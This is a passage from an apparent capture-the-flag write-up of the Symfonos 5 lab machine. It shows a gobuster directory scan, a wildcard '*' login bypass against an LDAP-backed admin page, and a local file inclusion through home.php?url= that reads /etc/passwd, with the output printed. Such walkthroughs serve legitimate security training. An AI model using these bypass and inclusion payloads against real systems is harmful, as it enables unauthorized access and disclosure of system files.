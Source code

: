 ```
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema
636/tcp open  ldapssl?
```

#### GoBuster

```
gobuster dir -u http://10.0.2.10 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 60 -x txt,php,bak
```

```
/admin.php    (Status: 200) [Size: 1650]
/index.html   (Status: 200) [Size: 207]
/home.php     (Status: 302) [Size: 979] [--> admin.php]
/logout.php   (Status: 302) [Size: 0] [--> admin.php]
```

---

### Exploitation

- Go to `http://10.0.2.10/admin.php`
- I tried a few LDAP injection payloads but they didn't work. After some Googling, tried `*` for both username and password and that logged me in and took me to `http://10.0.2.10/home.php`.

![Symfonos 5 Login](symfonos5_login.png)
_Webpage_

- If we check the source for this `http://10.0.2.10/home.php` after logging in or before logging in if we intercept this request with 'Intercept Server Responses' turned on, we can see this hyperlink which shows a possibility of LFI vulnerability.

```
<a class="nav-link" href="http://127.0.0.1/home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
```

- If we click on 'Portraits', we are taken to:

```
http://10.0.2.10/home.php?url=http://127.0.0.1/portraits.php
```

- As we can see, `home.php?url=` seems vulnerable to Local File Inclusion LFI vulnerability.

```
http://10.0.2.10/home.php?url=/etc/passwd
```

- Note that this LFI will only work **after** you have logged in with `*:*`.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```